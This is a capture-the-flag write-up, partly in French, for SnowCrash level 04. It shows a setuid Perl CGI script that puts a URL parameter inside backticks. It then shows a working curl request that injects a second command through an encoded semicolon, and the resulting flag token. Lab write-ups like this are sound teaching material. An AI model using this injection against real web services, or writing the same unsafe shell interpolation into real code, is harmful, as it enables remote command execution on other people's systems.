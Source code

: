 ## Level 04:

- Meme principe que le Level03
```
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat level04.pl
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

.pl est une extension pour du script pearl
## Resolution
 * This file execute itself when doing `curl localhost:4747/level04.pl/`
 * And if the url has a query with a parameter 'x' it will print it.
 * As the text is between backticks and is a shell command we can use it at our advantage
 * `echo $y 2>&1` can become `echo Whatever && ourcommand 2>&1`
 * The last thing to do will be to encrypt spaces and & characters for urls
 * `curl localhost:4747/level04.pl/?x=yoo%3Bgetflag`

```bash
curl localhost:4747/level04.pl/?x=yoo%3Bgetflag
yoo
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```